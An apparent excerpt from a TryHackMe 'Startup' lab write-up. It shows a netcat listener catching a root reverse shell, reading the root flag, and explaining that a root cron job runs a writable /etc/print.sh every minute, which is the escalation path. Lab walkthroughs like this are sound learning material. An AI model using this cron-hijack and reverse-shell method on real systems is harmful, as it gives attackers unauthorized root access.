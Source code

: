 Now just **wait** and we are **connected as root**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Startup]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 33022
sh: 0: can't access tty; job control turned off
# whoami
root
```

Then, read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```

![img](rootflag.png)

<details><summary><b>🏳️Flag: root.txt</b></summary></details><br>

Actually, for every minute, the **"planner.sh"** in **scripts directory** inside **lennie directory** will run and execute the **"/etc/print.sh"** script.
```
# crontab -l
* * * * * /home/lennie/scripts/planner.sh

# cat /home/lennie/scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

That's why we get the **"/etc/print.sh" script running**.